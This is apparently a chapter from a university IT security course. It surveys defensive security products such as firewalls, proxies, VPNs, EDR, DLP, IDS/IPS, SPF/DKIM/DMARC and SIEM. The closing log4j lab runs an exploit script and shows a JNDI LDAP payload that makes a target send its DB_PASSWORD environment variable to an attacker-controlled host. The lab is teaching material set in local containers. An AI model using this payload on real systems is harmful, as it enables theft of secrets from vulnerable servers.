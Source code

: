 = Security Solutions

To help combat security breaches, many different vendors offer security solutions.
These may be hardware or software designed to help mitigate a security threat.
Security solutions may be created in-house, created custom by a third party, or outsourced and offered as a service.
When evaluating solutions it is important to have a plan and understand the features and possible pitfalls of that product.

== False Positives / Negatives

When a security solution detects a threat, but no threat exists, that is a _false positive_.
Depending on the complexity of the solution it may utilize a set of rules, indicators of compromise, or possibly even artificial intelligence to trigger its warning system.
In the case of a solution that creates a lot of false positives, it can be tiring for a team to go through each alert.
Eventually teams are conditioned to ignore the alerts, making the security solution useless.

The key to lowering the false positive rate of a system is to better tune the rule set used to trigger the warnings.
A security team may spend time determining a baseline of events and looking for abnormalities that correspond to actual attacks.
This information can then be used to build a better detection system.

.Webroot Antivirus
====
https://www.nbcnews.com/tech/tech-news/popular-antivirus-program-mistakenly-ids-windows-threat-creating-chaos-n750521[In 2017 a popular antivirus service created a bad rule that identified certain Windows operating system files as threats.]
The antivirus solution quarantined these files, which were critical for the operation of the machine.
The result was a machine that was unusable.

For 13 minutes, Webroot distributed this rule to its antivirus software shutting down operations on an untold number of machines.
Fortunately Webroot was able to quickly identify the problem and send out an update which would have allowed the machines to automatically fix the problem.
Unfortunately their infrastructure for distributing the update quickly became overloaded.
====

When a security solution fails to identify a threat, this is known as a _false negative_.
While no solution can ever be 100% effective, false negatives can undermine confidence in a product.
False negatives may be resolved by a skilled SOC team, closely monitoring what is happening.
It is also possible to address false negatives through _Layered Security_ a concept that we will cover next.

== Layered Security

[svgbob, layers, float=left]
....
+---------+----------------------------+
| Layer 5 |      Human Monitoring      |
+---------+----------------------------+
| Layer 4 | Intrusion Detection System |
+---------+----------------------------+
| Layer 3 |          Firewall          |
+---------+----------------------------+
| Layer 2 |        Antimalware         |
+---------+----------------------------+
| Layer 1 |         Antivirus          |
+---------+----------------------------+
| Layer 0 |     Operating System       |
+---------+----------------------------+
....

Given that a single security solution is never 100% effective it makes sense to approach security in layers and use multiple systems.
There is often a lot of overlap between solutions and while that may seem inefficient in other fields, in cybersecurity we consider it a benefit.
By using multiple solutions, sometimes referred to as multi-layered security or defense in depth, you can build a more robust protection against breaches.

Let's take a look at an example to see how layered security can help mitigate the effects of a real-world attack.
Assume an SOC is supporting a web application on self-hosted machines.
A malicious actor wishes to exfiltrate data from the web application.
They begin by testing to see if SQL several different SQL injection attacks yield any results.

A well designed web application should sanitize its inputs and may prevent the queries from making it to the database.
Similarly an alert team may notice a sudden uptick in SQL queries, far beyond the usual baseline for the application.
An IDS (Intrusion Detection System) may flag the queries as known SQL injection attacks.
Assuming the attack makes it past the application, team, and the IDS, it is possible that the database user is configured according to the principle of least privilege and the queries will not be executed due to a lack of permissions.

As you can see, any one of these layers may be fail, but by having multiple layers the chance of an attack occurring is greatly diminished.

== Network Solutions

Many products are available for handling network traffic.
They are typically marketed as either stand-alone devices, software to install on internal devices, or a subscription service that routes traffic through an external appliance.
In the age of cloud computing network security as a service is becoming increasingly popular.

=== Firewall

A firewall is a service/software/device that blocks unwanted traffic and permits wanted traffic.
Typically a firewall is a barrier between and private network and the Internet.

Software like https://wiki.nftables.org/wiki-nftables/index.php/Main_Page[nftables] can be used to build a firewall on a Linux router for many interior clients.
Interior clients may also run host-based firewalls such as https://docs.microsoft.com/en-us/windows/security/threat-protection/windows-firewall/windows-firewall-with-advanced-security[Windows Defender Firewall].
Finally hardware solutions for plug-in firewall devices are available from many vendors including Palo Alto and Cisco.
Any combination of these solutions may be used.

Firewalls typically employ rules regarding which packets can come in and how to handle them.
For example a firewall may have a rule to `ALLOW` packets from exterior hosts connecting on port 22.
This would allow SSH connections.
Likewise a firewall may have a rule to track internal to external connection requests and perform network address translation (NAT).
On an IPv4 network it is common to have a firewall also perform NAT.

Next-Gen Firewalls (NGFW) perform the same functions of a standard firewall, but also employ an integrated intrusion prevention system (IPS) to mitigate threats.
The firewall is a perfect place to perform these actions as it can easily close of connections.
NGFW often tout artificial intelligence threat monitoring and automatic threat intelligence updating (typically updating attack signatures).
A NGFW can also easily be built on a Linux device by making use of https://www.snort.org/[an IPS] in conjunction with a netfilter firewall.

Network infrastructure may also make use of a special space _outside_ of a firewall called the Demilitarized Zone (DMZ).
Servers that need to be directly connected to the Internet are often put in the DMZ so they don't have a deal with restrictive firewall rules.
These servers may be used to detect malicious activity, monitor incoming traffic, or to handle basic requests such as serving static web pages.

The largest firewall in the world is the Chinese Great Firewall, started in 1998 as a way to prevent outside influence in China.
It is a system used to block IPs, hijack DNS queries, throttle traffic, and perform MitM decryption.
The Great Firewall is made of proxies and firewalls performing packet-inspection and content filtering.
VPNs are often employed within China to circumvent the great firewall and the great firewall is continually updated to attempt to detect and shut down this traffic.

=== Proxy

[svgbob, tls-proxy, float=right]
....
                 TLS Decrypting Proxy

                       Inspect
                       /     ^
                      V       \
                Re-encrypt  Decrypt
                      \      ^
                       v    /
.------.             .-------.             .--------.
| User | <---------> | Proxy | <---------> | Server |
'------'  encrypted  '-------'  encrypted  '--------'
           traffic               traffic
....

A proxy typically sits between the users and an external network.
Proxies and receive and send requests on behalf of a user, allowing for full control over the traffic going out and coming back in.

Proxies can be used for caching, access control, URL filtering, content scanning, and even packet inspection.
Proxy solutions may be explicit or transparent and are offered by many companies including McAfee, Fortigate, Netsparker, and Palo Alto.
A typical application of a proxy would be to filter explicit content on a school district network.

Proxies can also be broken into _forward_ and _reverse_ configurations.
A forward proxy passes requests from a private or internal network to the internet.
Forward proxies can speed up local requests through caching and validate that the request should be performed.
Forward proxies are interoperable with standard firewalls and network address translation (NAT).

Reverse proxies take requests from an external source and pass it to an internal service.
This helps prevent clients from having direct access to internal services.
Reverse proxies can utilize caching and validate requests as well.
A reverse proxy can also be configured to work with a firewall.
Whereas it used to be common practice to place a server in a demilitarized zone (DMZ) outside of a firewall, it is now far more common to employ a reverse proxy to reach that server. 

=== Load Balancer

A common application for reverse proxies is to act as a load balancer for traffic.
Load balancers distribute work, in the form of external client requests, among the internal resources, typically servers.

For example, if a company has four servers supporting a web application, they may employ a reverse proxy load balancer that takes requests from clients and passes that request to one of the four internal servers.
Different metrics are used to determine how the servers are utilized including least used (round robin), weighted, least amount of active connections.
Load balancers optimize bandwidth and increase availability.

=== VPN

A virtual private network (VPN) is used to encrypt internet traffic between two networks or a client and a network.
VPNs have become standard procedure for linking remote offices or connecting remote workers.
Given the growth of working from home, almost all users have become familiar with what a VPN is and what it does.

Site-to-site VPNs are typically used for linking offices together.
This kind of VPN is on permanently.
An example would be linking two college campuses: NJIT Newark and NJIT Jersey City.
In this scenario users on either campus expect to be able to connect securely to services on the opposite campus at all times.
The traffic is encrypted and carried over the Internet.

Remote access VPNs are used by individuals connecting in to a secure network.
This kind of VPN is usually stated through a application such as Cisco AnyConnect.
When the application is running the user is able to securely access internal resources as if they were at the office.

Many vendors offer VPN products including Cisco, Citrix, Fortinet, Palo Alto, and Checkpoint.
Many open source options also exist for building VPNs including https://openvpn.net/[OpenVPN], https://www.wireguard.com/[WireGuard], and https://linuxhint.com/how-to-implement-ipsec-in-linux/[IPsec].

=== TAP

Sometimes it is necessary for a network or security engineer to monitor what is happening on a particular network segment.
In this case a network terminal access point (TAP) can be employed.
A TAP creates a copy of network traffic and forwards it to a particular port on a switch or router.

== EDR

Endpoint Detection and Response (EDR) is used to secure endpoints: servers, workstations, desktops, mobile devices, etc.
EDR is typically implemented as a host-based incident prevention system (HBIPS), software that runs on the endpoint to monitor and collect data.

These systems will usually watch for indicators of compromise, scan for malware, and can even quarantine or shutdown the endpoint as needed.
Company hardware is a significant investment for any business and an EDR makes sure that investment is protected.
Many systems exist for EDR including FireEye, SEP, and CrowdStrike.

== Data Loss Prevention

Data loss prevention (DLP) solutions aim to stop the exfiltration of sensitive data.
This could be personally identifying information (PI), medical records, social security numbers (SSNs), credit card numbers, etc.
Typically DLP either functions on the endpoint and server, data at rest, or on the network, data in motion.

Network DLP solutions may monitor emails or web traffic for sensitive strings, such as SSNs.
When an SSN is detecting in an email, the email is quarantined and an alert is sent.
Server and endpoint DLP solutions may periodically scan the system to see if sensitive strings are stored on the system.
If it is a system that shouldn't have access to sensitive data an alert is sent.
DLP on an endpoint may also limit tasks like USB usage or bulk data transmitting.

== IDS/IPS

Intrusion Detection Systems and Intrusion Prevention Systems are systems that monitor network traffic to detect/prevent attacks.
These systems may look for known exploits, such as SQL injection patterns, in the traffic and trigger an alert when detected.
An intrusion _prevention_ system will take it one step further and actually shut down the connection or kill the offending process.

These systems employ exploit signatures or IDs that are indicators of compromise (IoCs), anomalies, or strange behaviors.
The power of an IDS/IPS often comes from how up-to-date it's signature database is.
There are many solutions in the category including Splunk, QRadar, CrowdStrike, and SolarWinds. 

== Email Solutions

The original protocols used to send/receive email were simple and not designed for the challenges we face today.
SPAM and phishing emails are unfortunately common and can be addressed with email client add-ons that scan for viruses or use patterns to identify phishing emails.
Many of these tools are already built into Google's GMail or Microsofts Exchange.

Another large challenge is verifying the sender of an email.
Currently three common methods exist: Sender Policy Framework (SPF), DomainKeys Identified Mail (DKIM), and Domain-base Message Authentication, Reporting, and Conformance (DMARC).

SPF utilizes TXT records on a DNS domain to verify the IP of a sender.
When inbound mail is received, the SPF information for the domain of the sender is retrieved, giving an allowed list of IPs.
For example, NJIT's SPF record currently looks like this:

[source, txt]
----
v=spf1 ip4:128.235.251.0/24 ip4:128.235.209.0/24 ip4:66.207.100.96/27 ip4:66.207.98.32/27 ip4:205.139.104.0/22 ip4:206.79.6.0/24 ip4:209.235.101.208/28 ip4:216.185.73.96/27 ip4:69.196.241.0/28 ip4:69.196.242.128/28 ip4:46.183.242.192/28 ip4:202.38.144.192/28 ip4:69.196.236.208/28 ip4:103.225.232.128/28 ip4:37.216.222.128/28 ip4:64.125.200.96/28 ip4:74.217.49.0/25 ip4:69.25.227.128/25 ip4:52.45.50.190 ip4:198.187.196.100 include:_netblock.njit.edu include:spf.sparkmail.org ~all
----

It is important to note that not all of these IPs belong to NJIT.
Some may be groups that send emails on NJIT's behalf like mass mailers, web applications, etc.
When properly configured SPF prevents an attacker from impersonating emails from a domain.

DKIM utilizes public and private key cryptography to ensure that an email originated from a particular SMTP server.
Public keys for a domain are advertised through a TXT DNS record for a particular domain.
Private keys are used by the SMTP server for that domain to sign the emails being sent.
A receiving SMTP server can then verify that the message originated from a valid SMTP server for that domain.
Private keys can also be distributed to SMTP servers that send emails on behalf of the domain.

DMARC applies policies to the SPF and DKIM validations.
DMARC answers questions like, "What should I do if a message is from a valid SPF IP but doesn't have a valid DKIM signature?" or "What should I do with a message that looks like SPAM but has a valid DKIM signature?"
DMARC puts many of the tools used to verify email together in a layered approach to determine whether to pass, quarantine, or block an email.

== SEIM

[.float-group]
--

[svgbob, seim, float=right]
....
           Firewalls ----+  +---- Servers
                         |  |
                         V  V
                .--------------------.
                | +----------------+ |
Workstations -->| | [S]ecurity and | |<-- Switches
                | | [I]nformation  | |
                | | [E]vent        | |
     Routers -->| | [M]anagement   | |<-- Proxies
                | +----------------+ |
                '--------------------'
                         ^  ^
                         |  |
                 IPS ----+  +---- DMARC
....

Security and Information Event management is a system for real-time monitoring of security information.
Typicallty a SIEM system presents a dashboard showing events and has the ability to generate reports or create tickets.
It may be separate device, software on an internal device, or even a third party service.
Some examples of popular SIEMs are QRadar, Splunk, and Azure Sentinel.

--

== Lab: Exploiting log4j

In this lab we will examine the log4j vulnerability, https://nvd.nist.gov/vuln/detail/CVE-2021-44228[CVE-2021-44228].
This vulnerability takes advantage of a flaw in a common logging library used by many Java applications, including Apache, neo4j, Steam, iCloud, and Minecraft. 
Any attacker that can cause a message to be logged can use the Java Naming and Directory Interface (JNDI) and cause the target to reach out to another server, LDAP in our example, and load a remote Java class file.
This file can contain any code that the attacker wishes to inject into the server process.

[IMPORTANT.deliverable]
====
Do some research: What versions of log4j are affected by this vulnerability?
====

This lab uses a Docker Compose configuration to simulate a network with an attacker and a target.
The target runs a https://github.com/leonjza/log4jpwn[known-vulnerable, example application] written by leonjza.
This example application logs the `User-Agent` header, request path, and a query string parameter of a request as seen below:

.App.java
[source, java]
----
package com.sensepost.log4jpwn;

import org.apache.logging.log4j.Logger;
import org.apache.logging.log4j.LogManager;

import static spark.Spark.*;

public class App {
    static final Logger logger = LogManager.getLogger(App.class.getName());

    public static void main(String[] args) {

        port(8080);

        get("/*", (req, res) -> {

            String ua = req.headers("User-Agent");
            String pwn = req.queryParams("pwn");
            String pth = req.pathInfo();

            System.out.println("logging ua: " + ua);
            System.out.println("logging pwn: " + pwn);
            System.out.println("logging pth: " + pth);

            // trigger
            logger.error(ua);
            logger.error(pwn);
            logger.error(pth);

            return "ok: ua: " + ua + " " + "pwn: " + pwn + " pth:" + pth;
        });
    }
}
----

[IMPORTANT.deliverable]
====
What port does our vulnerable app run on? 
====

Our attacker container has https://github.com/leonjza/log4jpwn/blob/master/pwn.py[the `pwn.py` script], also by leonjza, which does two things:

. Runs a fake LDAP server in the background on port 8888
. Sends a request with the JNDI URI referencing the fake LDAP server asking for a Java value to leak
. Parses and prints the response

Using this setup we can show how log4j can be used to leak sensitive information from running processes.
We will use it to leak the value of the environment variable `DB_PASSWORD`.
As it isn't uncommon to store secrets in environment variables on running containers, this should suffice to see just how devastating this exploit can be.

Start by downloading https://github.com/rxt1077/it230/blob/main/labs/log4j.zip?raw=true[the zip archive of this lab] and unzipping it in a directory where you have write permissions and can navigate to in a terminal application. Once you've done that, you can bring the lab up by typing `docker-compose up` in that directory. Output should look similar to what you see below:

[source, console]
----
PS C:\Users\rxt1077\it230\labs\log4j> docker-compose up
[+] Running 2/0
 - Container log4j-target-1    Created                                                            0.0s
 - Container log4j-attacker-1  Created                                                            0.0s
Attaching to log4j-attacker-1, log4j-target-1
log4j-attacker-1 exited with code 0
log4j-target-1    | WARNING: sun.reflect.Reflection.getCallerClass is not supported. This will impact performance.
log4j-target-1    | [Thread-0] INFO org.eclipse.jetty.util.log - Logging initialized @815ms to org.eclipse.jetty.util.log.Slf4jLog
log4j-target-1    | [Thread-0] INFO spark.embeddedserver.jetty.EmbeddedJettyServer - == Spark has ignited ...
log4j-target-1    | [Thread-0] INFO spark.embeddedserver.jetty.EmbeddedJettyServer - >> Listening on 0.0.0.0:8080
log4j-target-1    | [Thread-0] INFO org.eclipse.jetty.server.Server - jetty-9.4.z-SNAPSHOT; built: 2019-04-29T20:42:08.989Z; git: e1bc35120a6617ee3df052294e433f3a25ce7097; jvm 11.0.14+9-post-Debian-1deb11u1
log4j-target-1    | [Thread-0] INFO org.eclipse.jetty.server.session - DefaultSessionIdManager workerName=node0
log4j-target-1    | [Thread-0] INFO org.eclipse.jetty.server.session - No SessionScavenger set, using defaults
log4j-target-1    | [Thread-0] INFO org.eclipse.jetty.server.session - node0 Scavenging every 600000ms
log4j-target-1    | [Thread-0] INFO org.eclipse.jetty.server.AbstractConnector - Started ServerConnector@401fccd3{HTTP/1.1,[http/1.1]}{0.0.0.0:8080}
log4j-target-1    | [Thread-0] INFO org.eclipse.jetty.server.Server - Started @960ms
----

You'll notice that the `target` service is up and running the `log4jpwn` example application and that its output goes straight to the screen.
The `attacker` service will exit immediately as it is meant for interactive use and doesn't run anything in the background.
In another terminal, navigate to the lab directory again and run `docker-compose run attacker bash`. This will be the shell that you use to attack the target:

[source, console]
----
PS C:\Users\rxt1077\it230\labs\log4j> docker-compose run attacker bash
root@3971c61303c8:/# <1>
----
<1> Notice how the prompt changes once we are in the container

In the attack shell, use the `ip` command to determine the IPv4 address of your container.
We will need this since the `attacker` container will be listening for connections from `target` once the exploit string is logged.

[source, console]
----
root@3971c61303c8:/# ip addr show dev eth0
58: eth0@if59: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default
    link/ether 02:42:ac:14:00:02 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet <IP_ADDRESS>/16 brd 172.20.255.255 scope global eth0 <1>
       valid_lft forever preferred_lft forever
----
<1> You're IP is _not_ `<IP_ADDRESS>` it is whatever you find in its place!

Once you have the IP address, you can run the `pwn.py` script on the `attacker` container and you should be able to read the `DB_PASSWORD` environment variable on the `target` container.

[source, console]
----
root@3971c61303c8:/# python /pwn.py --listen-host <IP_ADDRESS> --exploit-host <IP_ADDRESS> --target http://target:8080 --leak '${env:DB_PASSWORD}' <1>
 i| starting server on <IP_ADDRESS>:8888
 i| server started
 i| setting payload in User-Agent header
 i| sending exploit payload ${jndi:ldap://<IP_ADDRESS>:8888/${env:DB_PASSWORD}} to http://target:8080/
 i| new connection from <TARGETS_IP>:44050
 v| extracted value: <DB_PASSWORD> <2>
 i| request url was: http://target:8080/
 i| response status code: 200
----
<1> Docker Compose will resolve service names to IP addresses so the target URI doesn't require finding an IP
<2> The value of `DB_PASSWORD` can will be here.

[IMPORTANT.deliverable]
====
What is the database password?
====

[IMPORTANT.deliverable]
====
What steps would you take to mitigate the risk of a deployed application having this vulnerability?
====

== Review Questions

[qanda]
What does it mean that security solutions are migrating from physical devices to cloud services? Give an example.::
    {empty}
In your opinion, which is more damaging, a false positive or a false negative? Why?::
    {empty}
What are the applications of a site-to-site VPN? Give an example of a scenario where an office might employ one.::
    {empty}
